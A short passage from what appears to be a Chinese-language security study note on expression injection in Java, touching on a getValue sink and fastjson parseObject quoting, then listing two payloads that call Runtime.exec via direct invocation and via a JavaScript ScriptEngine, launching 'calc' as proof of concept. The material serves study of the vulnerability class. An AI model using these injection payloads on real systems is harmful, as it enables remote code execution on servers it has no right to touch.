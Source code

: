 ```java
context.getValue(code);
```

![image-20230423095613752](../.gitbook/assets/image-20230423095613752.png)

* `com.alibaba.fastjson.JSON#parseObject`

注意这里外边传参要用单引号，json字符串和外边传参都用双引号会解析错误

![image-20230423102805538](../.gitbook/assets/image-20230423102805538.png)

## 普通方法利用

```java
exec(java.lang.Runtime.getRuntime(),'calc')
eval(getEngineByName(javax.script.ScriptEngineManager.new(),'js'),'java.lang.Runtime.getRuntime().exec(\"calc\")')
```
